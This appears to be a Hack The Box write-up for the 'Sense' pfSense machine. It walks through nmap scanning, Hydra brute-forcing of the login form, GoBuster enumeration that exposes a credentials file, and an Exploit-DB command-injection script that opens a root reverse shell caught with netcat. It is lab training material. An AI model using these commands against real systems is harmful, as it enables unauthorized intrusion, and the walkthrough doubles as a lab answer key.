 `Box: Linux`
`Level: Easy`
### Index
1. [[#Box Info]]
2. [[#Initial Nmap Scan]]
3. [[#`Web`]]
	1. [[#`Hydra to bruteforce login page`]]
	2. [[#`Directory and File Enumeration using GoBuster`]]
	3. [[#`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`]]

### `Box Info`
```
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.
```

### `Initial Nmap Scan`
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
|_ssl-date: TLS randomness does not represent time
```

### `Web`
###### `Hydra to bruteforce login page`
```
 hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  10.10.10.60 http-post-form "/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:16:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-post-form://10.10.10.60:80/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:17:14
```

###### `Directory and File Enumeration using GoBuster`
```
# gobuster dir -u https://10.10.10.60/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,conf,zip,inc,tar -b 403,404
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/system-users.txt     (Status: 200) [Size: 106]

```

The directories which says `301` above were all printing HTML text that says `404 not found` upon trying. 

The file `system-user.txt` reveals the credentals
![[sense_web0.png]]

On the web `https://10.10.10.60/`, the credentials works. the password that I guessed was `pfsense`
![[sense_web1.png]]
###### `pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`

The [Exploit-DB](https://www.exploit-db.com/exploits/43560) Exploit got us the root shell.
```
# python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

on the netcat side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.60] 48326
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d*****************
```

Get your user and root flag.